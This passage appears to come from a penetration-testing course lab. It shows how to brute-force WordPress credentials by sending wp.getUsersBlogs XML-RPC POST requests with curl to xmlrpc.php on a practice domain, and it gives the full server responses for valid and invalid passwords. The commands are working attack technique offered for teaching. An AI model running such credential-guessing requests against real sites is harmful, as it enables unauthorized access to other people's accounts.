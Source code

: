 Once we are armed with a list of valid users, we can mount a password brute-forcing attack to attempt to gain access to the WordPress backend. This attack can be performed via the login page or the `xmlrpc.php` page.

If our POST request against `xmlrpc.php` contains valid credentials, we will receive the following output:

**cURL - POST Request**

```shell-session
AbdulrahmanTamim@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

If the credentials are not valid, we will receive a `403 faultCode` error.

**Invalid Credentials - 403 Forbidden**

```shell-session
AbdulrahmanTamim@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>asdasd</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```
